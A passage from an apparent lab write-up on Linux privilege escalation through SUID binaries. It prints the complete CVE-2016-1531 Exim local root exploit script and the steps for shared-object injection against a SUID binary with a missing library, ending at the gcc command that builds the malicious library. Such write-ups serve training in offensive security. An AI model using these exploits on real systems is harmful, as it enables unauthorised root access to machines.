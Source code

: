 The binary `exim` can be exploited as in the [link](https://www.exploit-db.com/exploits/39535){:target="_blank"}. The file `/home/user/tools/suid/exim/cve-2016-1531.sh` can be executed to spawn a `privilege shell`.
{% capture code %}{% raw %}[ CVE-2016-1531 local root exploit
sh-4.1#{% endraw %}{% endcapture %} {% include code.html code=code %}

The exploit code is similar to below.
{% capture code %}{% raw %}#!/bin/sh
echo [ CVE-2016-1531 local root exploit
cat > /tmp/root.pm << EOF
package root;
use strict;
use warnings;

system("/bin/sh");
EOF
PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 12 - SUID / SGID Executables - Shared Object Injection

From the previous `suid` output, the file `/usr/local/bin/suid-so` can be tried to exploit. Upon trying to execute the binary, the following output can be seen.
{% capture code %}{% raw %}Calculating something, please wait...
[=====================================================================>] 99 %
Done.{% endraw %}{% endcapture %} {% include code.html code=code %}

The binary can be debugged to find any missing libraries or links using
{% capture code %}{% raw %}strace /usr/local/bin/suid-so 2>&1 | grep -iE "open | access | no such file"`{% endraw %}{% endcapture %} {% include code.html code=code %}

The output will be similar to
{% capture code %}{% raw %}access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or
directory){% endraw %}{% endcapture %} {% include code.html code=code %}

The missing library `/home/user/.config/libcalc.so` can be tried to exploit to spawn a `privilege shell`. Create the directory `mkdir /home/user/.config` and compile a library.
{% capture code %}{% raw %}gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c{% endraw %}{% endcapture %} {% include code.html code=code %}
